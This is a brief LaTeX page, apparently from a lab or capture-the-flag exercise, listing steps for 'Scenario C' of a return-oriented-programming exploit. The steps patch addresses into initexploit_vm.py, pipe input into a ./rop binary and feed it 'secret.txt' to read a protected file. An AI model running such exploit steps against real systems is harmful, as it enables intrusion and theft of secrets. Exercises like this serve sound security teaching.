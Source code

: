 \documentclass[12pt]{article}
\begin{document}
\textbf{Scenario C}:\\
You would first find the address, and replace the addresses of \emph{s\_*} variables in the \emph{initexploit\_vm.py} script. Then, run:
\begin{enumerate}
    \item python initexploit1a.py; echo "-1" $|$ ./rop $>$ dump1
    \item python initexploit\_vm.py hclibc
    \item secret.txt
    \item 100
    \item echo -1 $|$ ./rop
\end{enumerate}
\end{document}
